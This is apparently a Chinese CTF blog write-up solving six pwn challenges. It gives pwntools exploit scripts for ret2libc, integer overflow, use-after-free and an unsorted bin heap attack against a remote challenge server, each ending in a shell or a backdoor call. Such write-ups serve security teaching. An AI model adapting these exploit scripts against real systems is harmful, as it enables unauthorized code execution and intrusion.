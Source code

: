 ```yaml
---
title: CUMT PWN专项
date: 2021-11-25 23:24:22
tags: [CTF,Pwn,Python]
categories: 
 - [Cyber Security,CTF]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682435935/Typera/2023/04/54a2923a541fe0c86555a91b264f4221.png
---
```


## pwn1

 都说了是测试nc了，连上就直接可以拿到flag

## pwn2
 给我们个password，你再传回去就完了
 关键是要仔细读题，看仔细到底哪些是password
```python
from pwn import *
r=remote("219.219.61.234",6666 )
print(r.recvuntil(b'*\n').decode())
p=r.recvuntil(b'\n')[:-1]
print(bytes(p))
r.sendline(bytes(p))
r.interactive()
```
## pwn3
ret2libc
泄露libc中puts函数的地址
传入puts_got，得到puts的运行时的地址，
用libc.symbols[“system”] - libc.symbols[“puts”]得到system和puts的距离，
加上之前接收的puts运行时的地址，得到system运行的地址，
然后直接用elf.search('sh\x00').__next__()找到sh的地址
没开canary，
0x38,所以payload填60个a,然后传system地址+sh地址，就可以getshell了
```python 
from pwn import *

#r = process(b'./pwn3')
r=remote('219.219.61.234',10003)
elf = ELF(b'./pwn3')
libc = ELF(b'./libc.so.6')

print(r.recv().decode())
puts_got = elf.got['puts']
print(puts_got)

r.send(str(puts_got).encode())
r.recvuntil(b' : ')
puts_addr = int(r.recvuntil(b'\n')[:-1],16)
print(puts_addr)

system_addr = puts_addr + libc.symbols["system"] - libc.symbols["puts"]
print(system_addr)

p = b'a'*60 + p32(system_addr) + p32(0xdeadbeef) + p32(elf.search(b'sh\x00').__next__())
r.recvuntil(b' :')
r.sendline(p)

r.interactive()
```
## pwn4
没开canary，但是前两个地方不能栈溢出，
![image-20230425232110426](https://res.cloudinary.com/sycamore/image/upload/v1682436075/Typera/2023/04/dc2c87519810519185f4e3c91622b01d.png)
而又观察到v3刚好是个unsigned int8型的变量，可以利用整数溢出的漏洞，
它的最大值位255，所以只要保证一共填了255+4 ~ +8之间的个数就行

```python
from pwn import *

#r = process('./pwn4')
r = remote("219.219.61.234",10004 )

backdoor=0x0804868B
p = b'a'*0x18 + p32(backdoor) + b'a'*(259-0x18-4)

r.recvuntil(b'choice:')
r.sendline(b'1')
r.recvuntil(b'username:')
r.sendline(b'123')
r.recvuntil(b'passwd:')
r.sendline(p)

r.interactive()
```
## pwn5
Use After Free漏洞
指针free之后没有置空，下次在访问该指针时能访问到原指针所指向的堆内容
添加两个note之后，依次释放。再创建大小为8的note时，内容部分对应被分配到第一个note里面，而它的指针没有置空，
所以如果我们在新的note里面放后门函数的地址的话，print新note的内容的时候，就会执行这个后门函数
```python
from pwn import *

#r = process(b'./pwn5')
r=remote('219.219.61.234',10000)

backdoor=0x08048986

def add(size,content):
    r.recvuntil(b':')
    r.sendline(b'1')
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.send(content)

def delete(idx):
    r.recvuntil(b':')
    r.sendline(b'2')
    r.recvuntil(b':')
    r.sendline(str(idx))    

def Print(idx):
    r.recvuntil(b':')
    r.sendline(b'3')
    r.recvuntil(b':')
    r.sendline(str(idx))

add(32,'aaaa')
add(32,'aaaa')
delete(0)
delete(1)
add(8,p32(backdoor))
Print(0)

r.interactive()
```

## pwn6
堆溢出漏洞 + unsorted bin attack
只要控制v3=4869，同时控制qword_6020C0大于0x1305，就可以了
![image-20230425232125920](https://res.cloudinary.com/sycamore/image/upload/v1682436089/Typera/2023/04/d1aaf56f4760a578927720faa790c02a.png)
观察到v3=2对应的函数里面有堆溢出漏洞，所以可以利用堆溢出漏洞修改堆块的bk指针为qword_6020C0的地址-16

```python
from pwn import *

#r = process('./pwn6')
r = remote("219.219.61.234",10001 )
elf=ELF(B'./pwn6')

def create(size,content):
    r.recvuntil(b':')
    r.sendline(b'1')
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.sendline(content)

def edit(idx,size,content):
    r.recvuntil(b':')
    r.sendline(b'2')
    r.recvuntil(b':')
    r.sendline(str(idx))
    r.recvuntil(b':')
    r.sendline(str(size))
    r.recvuntil(b':')
    r.sendline(content)

def delete(idx):
    r.recvuntil(b':')
    r.sendline(b'3')
    r.recvuntil(b':')
    r.sendline(str(idx))

create(0x20,'aaaa')
create(0x80,'bbbb')
create(0x20,'cccc')

delete(1)

magic = 0x6020C0
fd = 0
bk = magic -0x10

edit(0,0x40,b'a' * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk)) 

create(0x80,b'aaaa')
r.recvuntil(b':')
r.sendline(b'4869')

r.interactive()
```
